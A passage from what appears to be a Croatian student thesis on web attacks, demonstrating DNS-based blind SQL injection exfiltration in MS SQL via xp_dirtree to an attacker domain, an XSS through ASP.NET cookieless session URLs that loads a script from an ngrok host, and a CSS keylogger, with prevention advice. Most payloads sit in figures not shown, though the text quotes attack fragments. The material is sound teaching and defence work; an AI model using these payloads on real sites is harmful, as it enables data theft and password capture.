Ovom konfiguracijom je namješteno da DNS server razlučuje domenu \texttt{arrdub.net} na adresu \texttt{192.168.56.101}, što je adresa DNS server, dok se poddomena \texttt{foo.arrdub.net}, ali i svaka druga poddomena, razlučuje na adresu na kojoj se napadač nalazi, što je u ovom slučaju adresa računala \texttt{192.168.56.101}. Opisano razlučivanje adresa je se može vidjeti na sljedećoj slici \ref{fig:bsqli_nsl}.

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=\textwidth]{bsqli_nsl.jpg}
		\caption{Rezultati nslookup-a na postavljene domene} \label{fig:bsqli_nsl}
	\end{center}
\end{figure}

Nakon što je potrebna mrežna infrastruktura postavljena, napadač može izvesti napad tako da pošalje malicioznu naredbu kao vrijednost kolačića. Maliciozan SQL naredba je prikazana na slici \ref{fig:bsqli_pay}.

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=\textwidth]{bsqli_pay.jpg}
		\caption{Maliciozna SQL naredba kojom se izvodi napad} \label{fig:bsqli_pay}
	\end{center}
\end{figure}

Kako se određeni znakovi, poput jednostrukih navodnika \texttt{'} i točke zareza \texttt{;}, escape-aju prije nego se vrijednost kolačića obradi, pronađena je alternativna metoda korištenja zabranjenih znakova. Ova metoda uključuje URL kodiranje tih znakova. Ovom metodom znakovi se escape-aju, a server ih i dalje interpretira kao obične znakove. Primjer ove metode se vidi na slici \ref{fig:bsqli_pay}, gdje je znak \texttt{'} kodiran u \texttt{\%27}, znak \texttt{;} je kodiran u \texttt{\%3B}. URL dekodirana maliciozna SQL naredba prikazana je na slici \ref{fig:bsqli_payd}.

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=\textwidth]{bsqli_payd.jpg}
		\caption{URL dekodiran maliciozna SQL naredba} \label{fig:bsqli_payd}
	\end{center}
\end{figure}

Ova maliciozna naredba se sastoji od više SQL naredbi. U prvoj liniji se nalazi jednostruki navodnik \texttt{'} i točka zarez \texttt{;}, koji služe da se završi SQL upit na serveru kojim se dohvaćaju detalji korisnika na osnovu kolačića. U drugom SQL upitu se deklarira varijabla \texttt{@p} tipa \texttt{varchar}. Zatim se u sljedećem SQL upitu za vrijednost varijable \texttt{@p} postavlja SQL upit kojim se dohvaća korisničko ime korisnika sa identifikacijskim brojem 2. Tablica nad kojom napadač dohvaća podatke korisnika sa identifikacijskim brojem 2 je prikazana na slici \ref{fig:bsqli_usrs}.

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=0.5\textwidth]{bsqli_usrs.jpg}
		\caption{Tablica iz koje se dohvaćaju podatci} \label{fig:bsqli_usrs}
	\end{center}
\end{figure}

Na kraju se u zadnjem SQL upitu s naredbom \texttt{exec('master..xp\_dirtree"//YOUR-URL"')} generira DNS upit na zadani URL. Napadač kreira željeni URL tako da se podatci koji se izvlače iz baze podataka stavljaju na mjesto poddomene. Podatci koji se žele izvući iz baze podataka su spremljeni u varijablu \texttt{@p}. Za domenu, napadač postavlja domenu za koju ima postavljeni DNS server, što znači da u ovom slučaju domena glasi \texttt{foo.arrdub.net}. Iza domene se stavlja stranica \texttt{a} koja ne postoji, ali će se zato ona zatražiti preko DNS upita koji će ostaviti trag. Posljednji SQL upit je zaključen s točkom zarez \texttt{;} i dva minusa \texttt{--} kojima se završava SQL upi te komentira bilo koji dio originalnog SQL upita koji bi moga spriječiti izvođenje napada.

Kako bi se izvršio napad, maliciozna SQL naredba se nadodaje na kraj vrijednosti kolačića, pa kolačić ima vrijednosti prikazan na slici \ref{fig:bsqli_mpay}.

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=\textwidth]{bsqli_mpay.jpg}
		\caption{Vrijednost kolačića nakon dodavanja URL kodirane maliciozne naredbe} \label{fig:bsqli_mpay}
	\end{center}
\end{figure}

Slanjem ovakvog kolačića rezultira time da MS SQL baza podataka izvršava naslagane SQL upite prikazane na slici \ref{fig:bsqli_fsql}.

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=\textwidth]{bsqli_fsql.jpg}
		\caption{Naslagani SQL upiti koje baza podataka izvršava} \label{fig:bsqli_fsql}
	\end{center}
\end{figure}

Prikazani SQL upiti će vratiti detalje o korisniku na osnovu danog kolačića te će MS SQL baza podataka zatražiti DNS upit za poddomenu \texttt{e.foo.arrdub.net/a}. Kako ta poddomena ne postoji, već samo poddomena \texttt{foo.arrdub.net}, tako će se na napadačevom računalu vidjeti pokušaj dohvaćanja nepostojeće poddomene. Ovo se može vidjeti na ispisu \texttt{tcpdum} alata, koji je prikazan na slici \ref{fig:bsqli_td}.

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=\textwidth]{bsql_td.jpg}
		\caption{Ispis tcpdum alata za port 53} \label{fig:bsql_td}
	\end{center}
\end{figure}

U posljednjoj liniji ispisa se vidi da je zatražena poddomena \texttt{e.foo.arrdub.net}, na koju MS SQL baza podataka neće dobiti IP adresu jer ta poddomena ne postoji. Međutim, ovime je napadač uspio izvući podatke iz baze, jer se rezultat njegovog SQL upita nalazi ispred \texttt{.foo.arrdub.net} domene te on ima vrijednost \texttt{e} \cite{dnsextr}.

\subsection{Sprječavanje napada}
Sprječavanje ovog napada se može obaviti korištenjem parametriziranih upita, umjesto korištenja konkatenacije unutar upita, jer kreiranje SQL upita je podložno SQLi ranjivosti koja je opisana u ovom poglavlju. Korištenje parametriziranih upita osigurava da napadače ne može promijeniti strukturu upita, čak kada su dodani i naknadni upiti.

Jednostavan način prevencije opisanog napada je korištenje bazi podataka koje ne podržavaju izvršavanje naslaganih upita, kao što je MySQL baza podataka. Osim promjene korištene baze podataka, alternativno se preporučuje primjena ograničenja kojim baza podataka ne može izvršavati naslagane upite.

Ako se iz bilo kojih razloga nije u mogućnosti primijeniti prethodna metoda prevencije napada, tada se preporučuje konfiguriranje baze podataka na takav način da ona nije u mogućnosti slati DNS zahtjeve. Kod korištene MS SQL baze podataka potrebno je napraviti dodatnu konfiguraciju baze, dok kod nekih drugih baza, poput MySQL, takve konfiguracije su postavljene kao zadane vrijednosti čim se baza instalira na sustav.

\section{XSS ranjivost u ASP .NET-u} \label{xss2}
\subsection{Opis web stranice}
Za demonstraciju ovog napada web stranica, koja je prikazana na slici \ref{fig:asp}, napravljena je koristeći ASP .NET softverski okvir.

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=\textwidth]{asp.jpg}
		\caption{ASP .NET web stranica} \label{fig:asp}
	\end{center}
\end{figure}

Front-end kod za ovu stranicu je prikazan na slici . 

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=\textwidth]{asp_f.jpg}
		\caption{Front-end kod ASP .NET web stranice} \label{fig:asp_f}
	\end{center}
\end{figure}

Kako za ovu demonstraciju nije potrebno nikakvo rutiranje niti komunikacija s bazom podataka, nije napravljen nikakav back-end, već je sve postavljeno na zadnjim vrijednostima.

Ova web stranica u front-end kodu sadrži \texttt{script} element koji ima atribut \texttt{src} postavljen na vrijednost \texttt{<\%= ResolveUrl("\char`\~/Script.js") \%>}. Korištenjem ove vrijednosti ASP .NET razlučuje putanju do \texttt{Script.js} dokumenta, koji se nalazi u korijenskoj datoteci aplikacije, tako da se znak tilde \texttt{\char`\~} interpretira kao putanja do korijenske datoteke web aplikacije. Na ovaj način se putanja u kodu ne treba mijenjati ako web aplikacija promjeni svoju lokaciju ili se instalira u komercijalne svrhe na nekom drugom sustavu.

\subsection{Opis napada}
Kako je ova aplikacija napravljena na ASP .NET softverskom okviru koji sadrži određene stare funkcionalnosti koje su zastarjele i ne koriste se, tako je ona ranjiva na XSS napad. Naime, prije nego što su se kolačići za praćenje korisnika, korištena je metoda, koju je primjenjivao ASP .NET v2.0, kojom se ID sesije spremao direktno u URL. SessionStateSection.Cookieless je svojstvo pomoću kojega bi ASP .NET stavlja ID sesije u URL. Primjer opisanog URL-a s ID-om \texttt{lit3py55t21z5v55vlm25s55} je prikazana na slici \ref{fig:asp_url}.

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=\textwidth]{asp_url.jpg}
		\caption{URL s ID-om sesije} \label{fig:asp_url}
	\end{center}
\end{figure}

Identifikatori koje ovo svojstvo podržava su:

\begin{itemize}
\item (A(?)), koji predstavlja anonimni ID
\item (S(?), koji predstavlja sesijski ID
\item (F(?), koji predstavlja autentikacijski listić forme
\end{itemize}

Zadana vrijednost svojstva \texttt{SessionStateSection.Cookieless} je postavljena na \texttt{AutoDetect}, iako čak i promjena vrijednosti svojstva na \texttt{UseCookies} ne znači da će ASP .NET generirati ikakvu grešku ako mu proslijedimo URL s ugrađenim sesijskim ID-om. To znači da pristup stranici preko URL-a \texttt{http://localhost:57819/(A(ABCD))/default.aspx} će imati isti rezultat kao i URL \texttt{http://localhost:57819/default.aspx}. Dodavanjem intenzifikatora \texttt{(A(ABCD))} ima za posljedicu da će se vrijednost \texttt{src} atributa \texttt{script} elementa razlučiti na vrijednost \texttt{}. Ovime je moguće kontrolirati URI putanju te se tako stvara XSS ranjivost. Ako napadač pristupi stranici s URL-om \texttt{http://localhost57819/(A(\%22onerror=\%22alert`1`\%22))/default.aspx} , moguće je pokrenuti JavaScript kod unutar web stranice, kao što se vidi na slici \ref{fig:asp_xss} ispod.

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=\textwidth]{asp_xss.jpg}
		\caption{XSS napad na ASP .NET web stranicu} \label{fig:asp_xss}
	\end{center}
\end{figure}

Međutim, kako bi se mogla izvršavati bilo koja skripta, potrebno je preoblikovati navedeni URL. Kako bi ovo ostvarili potrebni su nam znakovi koji se koriste u JavaScriptu, kao što su:

\begin{itemize}
\item \%
\item \&
\item ]
\item *
\item +
\item /
\item :
\item <
\item >
\item ?
\item \
\end{itemize}

Međutim, korištenje ovih znakova rezultira \texttt{400} ili \texttt{404} greškom. Metoda koja omogućava korištenje ovih znakova je uzorak niza znakova (eng. string template), koji omogućava korištenje JavaScript izraza unutar \texttt{\$\{\}} zagrada. Upotreba string template-a je prikazana na sljedećoj slici \ref{fig:asp_ste}.

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=0.7\textwidth]{asp_ste.jpg}
		\caption{Primjer korištenja uzorka niza znakova} \label{fig:asp_ste}
	\end{center}
\end{figure}

String template omogućava izgradnju stringova te konkatenaciju bez znaka \texttt{+}. Primjer ovoga se vidi na slici \ref{fig:asp_stc}.

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=0.7\textwidth]{asp_stc.jpg}
		\caption{Primjer izgradnje i konkatenacije stringa} \label{fig:asp_stc}
	\end{center}
\end{figure}

Još jedno svojstvo string template-a je da ono miče potrebu za korištenjem zagrada prilikom pozivanja funkcija, što se vidi na sljedećoj slici \ref{fig:asp_stf}.

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=0.7\textwidth]{asp_stf.jpg}
		\caption{Primjer pozivanja funkcije bez korištenja zagrada} \label{fig:asp_stf}
	\end{center}
\end{figure}

Pošto je izvršavanje proizvoljnih JavaScript komandi unutar URL-a složeno, napadač može napraviti XSS napada u URL-u kojim se učitava proizvoljna skripta u kojoj se mogu koristiti bilo koji znakovi, čime se olakšava iskorištavanje ove ranjivosti. Skripta koju ovaj XSS napad učitava se nalazi na adresi \texttt{http://0a502018ca98.ngrok.io/ASP}. Ova skripta sadrži jednostavan kod prikazan na slici .

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=0.5\textwidth]{asp_scpt.jpg}
		\caption{Skripta koju učitava XSS napad} \label{fig:asp_scpt}
	\end{center}
\end{figure}

Navedena skripta ispisuje na konzoli \texttt{ASP. NET XSS napad}. Nakon što je kreirana skripta, potrebno je postaviti njezin \texttt{src} atribut na vrijednost \texttt{//0a502018ca98.ngrok.io/ASP}, što se postiže kodom \texttt{js.src='//0a502018ca98.ngrok.io/ASP'}. Međutim, kako je znak \texttt{\textbackslash} zabranjen, umjesto njega koristimo izraz \texttt{\${String.fromCharCode`47`}} unutar string template-a, koji generira znak \texttt{\textbackslash}. Kreiranu skriptu stavljamo unutar \texttt{head} elementa, što se vidi na slici \ref{fig:asp_head}.

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=\textwidth]{asp_head.jpg}
		\caption{Dodavanje skripte u head element} \label{fig:asp_head}
	\end{center}
\end{figure}

U prvoj liniji navedenog koda \texttt{head} HTML element se sprema u varijablu \texttt{headEl}. U idućoj liniji se kreira funkcija kojom se izvršava niz znakova koji se nalazi u \texttt{hash} vrijednosti, što je u ovom slučaju \texttt{headEl.appendChild(js)}. Pozivanje funkcije koristeći string template-a je drugačije nego pozivanje funkcije sa zagradama. Naime, kada se izvodi sljedeći kod \texttt{alert`\${1}`}, tada se funkcija \texttt{alert} koristi za modificiranje string template-a \texttt{`\${1}`}. Traženo ponašanje je da funkcija \texttt{alert} primi string template \texttt{`\${1}`} kao varijablu. Opisano ponašanje se može postići korištenjem strukture koda prikazane na slici \ref{fig:asp_nf}.

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=0.6\textwidth]{asp_nf.jpg}
		\caption{Kodna struktura kojom je moguće pozivati funkcije s argumentima} \label{fig:asp_nf}
	\end{center}
\end{figure}

Pozivanjem prikazane funkcije rezultira \texttt{> > > [ ["LEFT", "RIGHT"], 4 ]}, gdje vidimo da je funkcija \texttt{whatsGoingOn} primila srednji argument. Ovo znači da bi se rezultat \texttt{> > > [ ["X", "X"], "alert(1)" ]} mogao dobiti izvršavanjem funkcije prikazane na slici \ref{fig:asp_funf}.

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=0.6\textwidth]{asp_funf.jpg}
		\caption{Pozivanje funkcije s uzorkom niza znakova umjesto zagrada} \label{fig:asp_funf}
	\end{center}
\end{figure}

Na kraju, konačni URL, koji sadrži XSS napad, ima oblik prikazan na slici \ref{fig:asp_final} ispod.

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=\textwidth]{asp_final.jpg}
		\caption{Konačni oblik URL adrese} \label{fig:asp_final}
	\end{center}
\end{figure}

Pokretanje navedenog URL-a rezultira skočnim prozorom koji je prikazana na slici \ref{fig:asp_atc}.

\begin{figure}[H]
	\begin{center}
		\includegraphics[width=\textwidth]{asp_atc.jpg}
		\caption{Posljedica napada} \label{fig:asp_atc}
	\end{center}
\end{figure}

Razlog ovog ponašanje je taj što je XSS napad učitao skriptu koja se nalazi na URL-u \texttt{http://0a502018ca98.ngrok.io/ASP}, čiji kod je prikazan na slici \ref{fig:asp_scpt} \cite{annapad}.

\subsection{Sprječavanje napada}
Pošto je ovaj napad specifičan za ASP .NET softverski okvir, on bi se mogao spriječiti prestankom podržavanja ove zastarjele funkcionalnosti.

Ako to nije moguće napraviti, preporučuje se primjena CSP pravila kojima bi se onemogućilo ovakvom napadu da radi HTTP zahtjeve na adrese van web aplikacije.

\section{CSS keylogger}
\subsection{Opis web stranice}
Web stranica koja je korištena za demonstraciju ovog napada je napravljena korištenjem PHP jezika te je pokrenuta na Apache PHP serveru jer ovaj napad ovisi o korištenom serverskom skriptnom jeziku. Ova stranica je prikazana na slici \ref{fig:css} ispod.

\begin{figure}[H]
	\begin{center}
		\includegraphics[width=\textwidth]{css.jpg}
		\caption{Izgled web stranice} \label{fig:css}
	\end{center}
\end{figure}

PHP kod kojim je konstruirana ova stranica je prikazan na sljedećoj slici .

\begin{figure}[H]
	\begin{center}
		\includegraphics[width=\textwidth]{css_cod.jpg}
		\caption{PHP kod web stranice} \label{fig:css_cod}
	\end{center}
\end{figure}

Pretpostavimo da je prikazana stranica prikazuje neki podataka, poput korisničkog imena, kojeg generira korisnik te da se na istoj stranici upisuje lozinka ili tajni podatak u \texttt{input} element tipa \texttt{password}. Također, ova stranica simulira aspekt kontroliranih komponenti React softverskog okvira koji održava vrijednost atributa \texttt{value} kod \texttt{input} elemenata ažurnim s unesenom vrijednošću. Ovo ponašanje se može vidjeti na web stranici za prijavu na Instagram, koji je napravljen u React-u. Primjer ovoga je prikazan na slikama \ref{fig:css_inst} i \ref{fig:css_inst2}.

\begin{figure}[H]
	\begin{center}
		\includegraphics[width=\textwidth]{css_inst.jpg}
		\caption{Instagram prije unosa lozinke} \label{fig:css_inst}
	\end{center}
\end{figure}

\begin{figure}[H]
	\begin{center}
		\includegraphics[width=\textwidth]{css_inst2.jpg}
		\caption{Instagram poslije unosa lozinke} \label{fig:css_inst2}
	\end{center}
\end{figure}

Na slici \ref{fig:css_inst} nije upisano niti jedno slovo, stoga je vrijednost \texttt{input} elementa prazna. Na slici \ref{fig:css_inst2} upisano je slovo \texttt{f}, što se vidi u vrijednosti \texttt{value} atributa \texttt{input} elementa. Isto ponašanje je prisutno i na web stranici koja se koristi za demonstraciju ovog napada, što se vidi na slikama \ref{fig:css_nval} i \ref{fig:css_val}.

\begin{figure}[H]
	\begin{center}
		\includegraphics[width=\textwidth]{css_nval.jpg}
		\caption{Web stranica prije unosa lozinke} \label{fig:css_nval}
	\end{center}
\end{figure}

\begin{figure}[H]
	\begin{center}
		\includegraphics[width=\textwidth]{css_val.jpg}
		\caption{Web stranica poslije unosa lozinke} \label{fig:css_val}
	\end{center}
\end{figure}

\subsection{Opis napada}
Kako je opisana web stranica CSS učitava preko \texttt{link} elementa tako da \texttt{href} atribut ima vrijednost \texttt{keyloger.css}. Pošto nije dana puna putanja do \texttt{keyloger.css} dokumenta, PHP server interpretira tu vrijednost kao relativnu putanju u odnosu na putanju web stranice, odnosno dokumenta \texttt{second.php} u kojoj se nalazi kod za ovu web stranicu. Međutim, ako se na kraj URL-a doda znak \texttt{/} stranica se prikazuje bez da je učitan \texttt{keyloger.css}. Kako se na ovoj stranici nalazi tekst \texttt{{}@import url("http://localhost:8080/mid.css");}, tako stranica interpretira ovaj dio HTML-a kao CSS. Razlog tašto se to događa je taj što znakovi \texttt{\{\}} isprovociraju CSS parser da prepozna taj dio HTML-a kao CSS. Ovo se može vidjeti na sljedećoj slici \ref{fig:css_slh}.

\begin{figure}[H]
	\begin{center}
		\includegraphics[width=\textwidth]{css_slh.jpg}
		\caption{Web stranica nakon dodavanja znaka / na kraj URL-a} \label{fig:css_slh}
	\end{center}
\end{figure}

Ovaj napad je izvediv na Internet Exploreru verziji 10, što je bitno zbog načina na koji ovaj web preglednik obrađuje CSS dokumente. Iako je web preglednik ne primjenjuje na stranicu CSS dokument koji je naveden u \texttt{link} elementu, primjena \texttt{mid.css} dokumenta na web stranicu ovisi o položaju na kojem se nalazi \texttt{link} element unutar koda web stranice. Naime, Internet Explorer dopušta prikaz web stranice u situaciji kada nisu dohvaćeni svi CSS dokumenti ako se \texttt{link} element nalazi na kraju HTML dokumenta, odnosno Internet Explorer ne radi blokiranje iscrtavanja stranice (eng. render blocking) stranice ovisno o tome dali su učitani svi CSS dokumenti. Ovo ponašanje se ne javlja u drugim web preglednicima, što se može vidjeti na primjeru Chrome web preglednika prikazanog na slici \ref{fig:css_pend} \cite{cssnapad2}.

\begin{figure}[H]
	\begin{center}
		\includegraphics[width=\textwidth]{css_pend.jpg}
		\caption{Iscrtavanje web stranice u Chrom web pregledniku} \label{fig:css_pend}
	\end{center}
\end{figure}

Na prikazanoj slici \ref{fig:css_pend} se vidi da na stranicu nije primijenjen CSS \texttt{evil.css} dokumenta jer nije učitan CSS dokument na putanji \texttt{localhost:8000/l?=2}. Početni CSS dokument koji se ubacuje u web stranicu je prikazan na slici te se on koristi za pozivanje \texttt{evil.css} dokumenta te \texttt{1.css} dokumenta. \texttt{Mid.css} dokument je prikazan na sljedećoj slici \ref{fig:css_midc}. 

\begin{figure}[H]
	\begin{center}
		\includegraphics[width=\textwidth]{css_midc.jpg}
		\caption{Mid.css dokument} \label{fig:css_midc}
	\end{center}
\end{figure}

Dokument \texttt{evil.css} je prikazan na slikama \ref{fig:css_evil} i \ref{fig:css_evil2} ispod.

\begin{figure}[H]
	\begin{center}
		\includegraphics[width=0.9\textwidth]{css_evil.jpg}
		\caption{1. dio evil.css dokumenta} \label{fig:css_evil}
	\end{center}
\end{figure}

\begin{figure}[H]
	\begin{center}
		\includegraphics[width=0.55\textwidth]{css_evil2.jpg}
		\caption{2. dio evil.css dokumenta} \label{fig:css_evil2}
	\end{center}
\end{figure}

Izrada CSS keyloggera se temelji na atribute selector-ima koji omogućavaju primjenu CSS pravila kada su zadovoljeni dani uvjeti nad vrijednosti atributa odabranog elementa. Atribut selektori se mogu primijeniti za bilo koji atribut HTML elementa te postoji više načina na koji se mogu kreirati atribut selektor pravila. Korištenjem različitih znakova nakon znaka jednako \texttt{=} unutar atribut selektor pravila mogu se postići različiti efekti koji su prikazani na slici .

\begin{figure}[H]
	\begin{center}
		\includegraphics[width=\textwidth]{css_ate.jpg}
		\caption{Primjer različitih efekata koji se mogu postići s atribut selektorima} \label{fig:css_ate}
	\end{center}
\end{figure}

 Primjer ovoga se može vidjeti na slici \ref{fig:css_as} na kojoj je prikazano CSS pravilo kojim se \texttt{a} element boja u narančastu boju ako je \texttt{href} atribut ima vrijednost \texttt{https://localhost:8080}. Ukoliko \texttt{href} atribut nema navedenu vrijednost, CSS pravilo neće biti primijenjeno na \texttt{a} element.

\begin{figure}[H]
	\begin{center}
		\includegraphics[width=0.5\textwidth]{css_as.jpg}
		\caption{Primjer upotrebe atribut selektora} \label{fig:css_as}
	\end{center}
\end{figure}

Primjer primjene ovakvog CSS pravila se može vidjeti na slici \ref{fig:css_evil} u kojoj \texttt{a} element čija je vrijednost \texttt{href} atributa jednaka \texttt{http://localhost:8080}.

\begin{figure}[H]
	\begin{center}
		\includegraphics[width=\textwidth]{css_ex.jpg}
		\caption{Primjer primjene atribut selektora} \label{fig:css_ex}
	\end{center}
\end{figure}

U sljedećoj slici \ref{fig:css_ex2} se može vidjeti da navedeno CSS pravilo se ne primjenjuje na \texttt{a} element jer atribut \texttt{href} ima vrijednost \texttt{http://localhost:4000/}.

\begin{figure}[H]
	\begin{center}
		\includegraphics[width=\textwidth]{css_ex2.jpg}
		\caption{Primjer prestanka primjene CSS pravila nakon promjene vrijednost href atributa} \label{fig:css_ex2}
	\end{center}
\end{figure}

CSS dopušta primjenu više atribut selektor na jedan element, stoga je moguće kreirati pravilo prikazano na slici  koje se primjenjuje na \texttt{a} element s atributom \texttt{value} postavljenu na vrijednost \texttt{test} 

Kako se atribut selektori mogu primijeniti na bilo koji atribut, to znači da se oni mogu primijeniti na atribut \texttt{value} \texttt{input} elementa kojemu je atribut \texttt{type} postavljen na vrijednost \texttt{password}. CSS pravila koja imaju atribut selektore postavljene na vrijednost \texttt{value} atributa \texttt{input} elementa inače se ne bi primjenjivali jer se vrijednost \texttt{value} atributa ne ažurira s unosom podataka. Međutim, zbog kontroliranih komponenti, u React softverskom okviru, ažuriranje vrijednosti se odvija.

Ovime je objašnjeno kako se CSS pravila mogu primjenjivati ovisno o upisanoj vrijednosti. Način na koji napadač može doznati koji znak je unesen je tako da se u CSS pravilo s atribut selektorima koristi svojstvo \texttt{background-image}. Naime, ovo svojstvo se koristi za postavljanje pozadinske slike uz kombinaciju s CSS funkcijom \texttt{url()} kojom je moguće učitati sliku na osnovu putanje na računalu. Jedna od funkcionalnosti \texttt{url()} funkcije je da ona može slati HTTP zahtjeve ako se kao argument proslijedi URL. Na ovaj način CSS podržava učitanja slike preko URL-a. Mogućnost \texttt{url()} funkcije da šalje HTTP zahtjeve napadač može iskoristiti kao način na koji CSS keylogger javlja napadačevom serveru koje slovo je korisnik unio. Na kraju CSS pravilo kojim CSS keylogger javlja da je prvo slovo lozinke, slovo \texttt{a} je prikazano na slici \ref{fig:css_rule}.

\begin{figure}[H]
	\begin{center}
		\includegraphics[width=\textwidth]{css_rule.jpg}
		\caption{Primjer CSS pravila kojim keylogger javlja da je prvo uneseno slovo "a"} \label{fig:css_rule}
	\end{center}
\end{figure}

Iako napadač ima način na koji može doznati koje slovo je korisnik unio, to i dalje zahtjeva da za prvo slovo lozinke napadač napravi CSS dokument s 223 pravila, pomoću kojih se šalje HTTP zahtjev za prvo slovo lozinke. Kako lozinke općenito imaju minimalno 8 znakova to bi zahtijevalo jedno CSS pravilo za svaku tih kombinaciju 8 znakova, što bi značilo ukupno \(6.11 \times 10^{18}\) CSS pravila.

